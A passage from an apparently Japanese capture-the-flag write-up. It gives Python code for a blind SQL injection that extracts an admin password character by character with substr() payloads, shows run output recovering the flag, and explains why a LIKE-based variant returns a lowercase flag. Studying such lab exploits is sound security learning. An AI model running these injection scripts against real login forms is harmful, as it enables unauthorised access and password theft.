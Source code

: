 ```python
    #print(data)
    headers.update([('Content-Type','application/x-www-form-urlencoded')])
    res = requests.post(attack_url, headers=headers,verify=False,data=data)
    #print(res.text)
    return res

def create_pass_query(pw):
    # admin' and substr(pass,1,1)='f' -- -
    query = "admin' and substr(pass," + str(len(pw)) + ",1)='"+pw[-1]+"' -- -"
    print(query)
    return query

def check_result(res):
    if 'Congratulations!' in res.text:
        return True
    return False

####################
###     main     ###
####################

# find pw
fix_pass = ""
is_end = False
while not is_end:
    for c in candidates:
        try_pass = fix_pass + str(c)
        print(try_pass)
        query = create_pass_query(try_pass)
        res = attack(query)
        if check_result(res):
            fix_pass += c
            break
        if c == '#':
            is_end = True
            

print("result: " + fix_pass)
```
`substr`を使うとFlagゲット！  
```txt
$ python3 exploit-substr.py


admin' and substr(pass,22,1)='!' -- -
FLAG_KpWa4ji3uZk6TrPK?
admin' and substr(pass,22,1)='?' -- -
FLAG_KpWa4ji3uZk6TrPK&
admin' and substr(pass,22,1)='&' -- -
FLAG_KpWa4ji3uZk6TrPK#
admin' and substr(pass,22,1)='#' -- -
result: FLAG_KpWa4ji3uZk6TrPK
```
ちなみに、SQLite3では`like`を使うと大文字小文字を区別せず、`=`を使えば区別する。  
MySQLでは`like`も`=`も両方区別しない。  
https://sutara-lumpur.hatenadiary.org/entry/20120818/1345280287#20120818_4  
したがって、以下のような`like`を使ったBlindでは全部小文字のFlagになって正常なFlagが得られない。  
```python
def create_pass_query(pw):
    query = "admin' and pass like '" + pw + "%' -- -"
    print(query)
    return query
```
以下は全部小文字になってしまってるFlag。  